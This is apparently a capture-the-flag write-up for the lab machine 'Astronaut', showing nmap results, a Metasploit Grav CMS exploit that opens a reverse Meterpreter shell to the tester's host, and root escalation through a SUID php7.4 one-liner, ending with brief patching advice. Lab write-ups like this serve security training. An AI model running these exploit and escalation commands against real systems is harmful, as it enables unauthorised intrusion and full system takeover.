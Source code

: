 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Astronaut
- Description: One small step for man, one giant leap for .....
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-title: Index of /
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Upon viewing the grav-admin page, I can see that it is some sort of cms. I try to enumerate the version but I get a 403:

![](assets/images/2024-01-24-OFFSEC-astronaut-writeup-image-1.png)

From there I will spray a couple of unauth exploits, because this should be an easy box...
```bash
msf6 exploit(linux/http/gravcms_exec) > run

[*] Started reverse TCP handler on 192.168.45.222:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Sending request to the admin path to generate cookie and token
[+] Cookie and CSRF token successfully extracted !
[*] Implanting payload via scheduler feature
[+] Scheduler successfully created ! Wait up to 93 seconds
[*] Sending stage (39927 bytes) to 192.168.238.12
[*] Cleaning up the scheduler...
[+] The scheduler config successfully cleaned up!
[*] Meterpreter session 1 opened (192.168.45.222:4444 -> 192.168.238.12:34512) at 2024-01-25 15:05:02 -0500

meterpreter > shell
Process 2562 created.
Channel 0 created.
whoami
www-data
```

Shell, even though it was a bit iffy so I sent it out to a different shell!
## Privilege Escalation
```bash
www-data@gravity:~/html/grav-admin/user/accounts$ find / -perm -u=s -type f 2>/dev/null
/snap/core20/1852/usr/bin/chfn
/snap/core20/1852/usr/bin/chsh
/snap/core20/1852/usr/bin/gpasswd
/snap/core20/1852/usr/bin/mount
/snap/core20/1852/usr/bin/newgrp
/snap/core20/1852/usr/bin/passwd
/snap/core20/1852/usr/bin/su
/snap/core20/1852/usr/bin/sudo
/snap/core20/1852/usr/bin/umount
/snap/core20/1852/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1852/usr/lib/openssh/ssh-keysign
/snap/core20/1611/usr/bin/chfn
/snap/core20/1611/usr/bin/chsh
/snap/core20/1611/usr/bin/gpasswd
/snap/core20/1611/usr/bin/mount
/snap/core20/1611/usr/bin/newgrp
/snap/core20/1611/usr/bin/passwd
/snap/core20/1611/usr/bin/su
/snap/core20/1611/usr/bin/sudo
/snap/core20/1611/usr/bin/umount
/snap/core20/1611/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1611/usr/lib/openssh/ssh-keysign
/snap/snapd/18596/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/at
/usr/bin/su
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.4
/usr/bin/gpasswd
```

Checking the suid binaries I see php7.4 is one of them. This should be an easy root!

```bash
www-data@gravity:~/html/grav-admin/user/accounts$ php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
root
```

## Beyond Root

Update the cms instance to patch vuln, get rid of the suid for root!